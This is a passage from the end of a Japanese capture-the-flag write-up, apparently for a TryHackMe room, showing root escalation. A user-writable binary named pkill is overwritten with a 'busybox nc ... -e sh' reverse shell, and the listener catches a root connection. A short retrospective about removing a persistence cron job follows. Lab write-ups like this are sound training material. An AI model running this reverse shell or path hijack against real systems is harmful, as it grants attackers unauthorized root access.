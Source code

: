 リバースシェル配置

```shell
echo "busybox nc 10.2.22.182 6667 -e sh" > /home/lachlan/bin/pkill
chmod +x /home/lachlan/bin/pkill
```

ルートシェル取得成功

```shell
$ nc -nvlp 6667
listening on [any] 6667 ...
connect to [10.2.22.182] from (UNKNOWN) [10.10.172.28] 49688
id
uid=0(root) gid=0(root) groups=0(root)
```

```shell
cat /root/root.txt
thm{.......................}
```

ルートフラグゲット！


## 振り返り

- 個人的なことだが、現時点で公開されている Easy チャレンジ全クリア達成となる記念碑的なCTFになった。
- pts は勉強になった。
- とりあえず cron ジョブファイルを削除したら、SSHを切断される妨害は止まった。

```shell
# rm /etc/cron.d/persistence
```